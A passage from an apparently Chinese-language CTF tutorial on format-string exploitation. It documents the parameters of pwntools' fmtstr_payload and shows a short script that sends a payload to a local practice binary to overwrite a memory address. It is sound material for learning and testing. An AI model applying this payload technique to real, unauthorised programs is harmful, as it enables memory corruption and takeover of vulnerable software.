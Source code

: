 ![res3.png](./assets/fmtstr-res3.png)

#### 使用 fmtstr_payload 构造 payload

fmtstr_payload 函数有如下参数

- **offset**(int): 控制的格式化字符串的第一个偏移
- **writes**(dict): 带有地址和对应值的字典 ``{addr: value, addr2: value2}``
- **numbwritten**(int): printf 函数已写入的字节数
- **write_size**(str): 必须为“byte”、“short”或“int”，告诉函数如何逐字节写入
- **overflows**(int): 允许多少额外溢出，用于减少格式化字符串的长度
- **strategy**(str):  'fast' 或 'small' , 默认为 small，fast 可用于有很多写入时 
- **no_dollars**(bool): 使用或不使用 $ 符号生成有效负载的标志

除 offset 和 writes 外通常省略，例如给 b 写入 0x12345678：

~~~python
from pwn import *

context(arch='i386',os='linux',log_level='debug')

p = process('./fmtstr')

payload = fmtstr_payload(6,{0x804C01C:0x12345678})

p.sendline(payload)
~~~
